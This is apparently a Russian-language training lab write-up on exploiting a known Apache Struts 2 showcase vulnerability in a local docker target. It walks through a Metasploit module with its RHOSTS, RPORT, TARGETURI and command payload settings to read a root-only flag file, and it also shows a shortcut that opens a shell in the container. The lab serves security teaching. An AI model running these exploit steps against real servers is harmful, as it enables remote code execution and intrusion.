

### Практика «Эксплуатация уязвимостей 1-го дня сетевых сервисов»

Подготовка
Требования к лабораторному стенду:

На вашей операционной системе должно быть установлено программное обеспечение docker и docker-compose.

Поддерживаемые ОС: Linux,Windows, MacOS (x64/arm).

Для подготовки стенда:

Необходимо скачать архив по
ссылке: [service-exploit.zip](https://cybered-my.sharepoint.com/:u:/g/personal/v_karmanov_cyber-ed_ru/EcKDQRzvnvlCixDjZN6-ilkB5ye1nymeVfsvCOfAVlIV-w?e=iZcFld) (
Зеркало: [service-exploit.zip Яндекс.Диск](https://disk.yandex.ru/d/m88Ujs4R0LSCCg) )

Распаковать данный архив и перейти в появившуюся директорию service-exploit-prod в терминальной оболочке вашей ОС.
Выполнить команду:

```commandline
docker-compose up -d
```

для обхода решения задания просто подключитесь к запущенному докер образу
```commandline
# просмотрим список созданных образов
sudo docker ps

# подключимся к нашему 
sudo docker exec it service-exploit-prod-target-1 bash

# после подключения просматриваем нужный файл
cat /root/root.txt
```



решение по учебнику:
```commandline
# Запуск фреймворка
msfconsole

# после запуска метаэксплоита внутри проводим поиск всех возможных эксплойтов с содержимым строки “struts showcase”
search struts showcase 

# он выведет одну найденную уязвимость exploit/multi/http/struts2_code_exec_showcase  выберем его для работы последующей настройки
use exploit/multi/http/struts2_code_exec_showcase

# Изучение информации об эксплойте
info

# Демонстрация опций для настройки эксплойта
options

# Приступим к настройке эксплойта, нам нужно что бы он подключился к нашему сайту, укажим его IP и порт
# Настройка узла для применения эксплойта, он у нас развернут локально
set RHOSTS localhost

# Настройка порта для применения эксплойта
set RPORT 1337

# Настройка места нахождения уязвимого плагина на сайте
set TARGETURI /integration/saveGangster.action

# Настройка “нагрузки” исполняемой после применения эксплойта
set PAYLOAD cmd/unix/generic

# Настройка опций нагрузки (Указание команды, которую необходимо выполнить)
set CMD 'cat /root/root.txt'

# Использование “чекера” для проверки корректности настроенного эксплойта
check

# Эксплуатация уязвимости
exploit

# или
run

p.s. если вы все сделали правильно, но заветная строчка не появилась перезапустите образ докер, иногда зависает
```